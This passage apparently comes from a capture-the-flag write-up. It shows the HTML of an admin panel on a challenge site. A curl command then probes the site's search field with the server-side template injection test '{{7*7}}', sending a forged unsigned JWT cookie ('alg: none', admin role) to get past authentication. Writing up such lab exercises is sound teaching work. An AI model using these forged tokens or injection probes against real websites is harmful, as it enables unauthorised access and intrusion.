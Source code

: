 ```console
        </nav>
        <div class="columns">
            <section class="column">
                <div class="card">

                    <article class="notification is-success is-light has-text-centered">
                        Welcome Admin of Arendelle kingdom,

                        The flag is closer than you think
                    </article>
                </div>
            </section>
        </div>

        <div class="columns is-centered">
            <section class="column is-half">
                <form action="./admin" method="GET">
                    <div class="field has-addons">
                        <div class="control is-expanded">
                            <input class="input" type="text" name="search" id="search" placeholder="what are you looking for?">
                        </div>
                        <div class="control">
                            <button class="button is-info">
                                Search
                            </button>
                        </div>
                    </div>
                </form>
            </section>
        </div>
        <div class="columns is-centered">
            <div>
                result: no result
            </div>
        </div>

    </body>
</html>
```

Looks like it worked! The website greets us with `Welcome Admin of Arendelle kingdom` and tells us that `The flag is closer than you think`. The control panel contains a search engine, what should we search for?

After trying different things, we find that the site is vulnerable to a template injection attack. For example, if we search for `{{7*7}}`, we get:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Thunderstorm_of_hail_and_fire]
└─$ curl 'https://arendelle.plagues-of-egypt.com/admin?search=%7B%7B7*7%7D%7D' -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.' -s | grep result
                result: 49
```
